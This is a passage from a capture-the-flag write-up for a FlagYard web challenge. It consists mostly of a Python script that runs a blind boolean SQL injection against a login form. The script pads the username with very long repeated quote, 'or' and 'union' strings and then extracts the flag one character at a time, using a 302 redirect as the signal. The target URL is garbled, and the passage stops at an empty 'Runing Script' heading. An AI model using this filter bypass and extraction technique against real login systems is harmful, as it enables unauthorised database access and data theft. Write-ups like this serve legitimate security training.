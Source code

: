 -   `302 Redirect` → condition true → correct character found.-   Builds the flag step by step.

------------------------------------------------------------------------

###  Final Script

After successful exploitation, the retrieved flag was:
```python
    import requests

prefix =  383838 * '"'
prefix += 383838 * 'or'
prefix += 383838 * "union"

now_flag = "BHFlagY{"
hex_char = "abcdef0123456789}"

for i in range(300):
    print(now_flag)
    for j in hex_char:
        flag = now_flag + j
        injection = {
            'username': prefix + "'or(if((select(flag)from(flags))like('" + flag + "%'),1,2)=1)#",
            'password': "password",
            'login-submit': ''
        }
        resp = requests.post("http:/----.playat.flagyard.com/", data = injection, allow_redirects = False)
        if resp.status_code == 302:
            now_flag = flag
            break
```
------------------------------------------------------------------------

###   Runing Script 
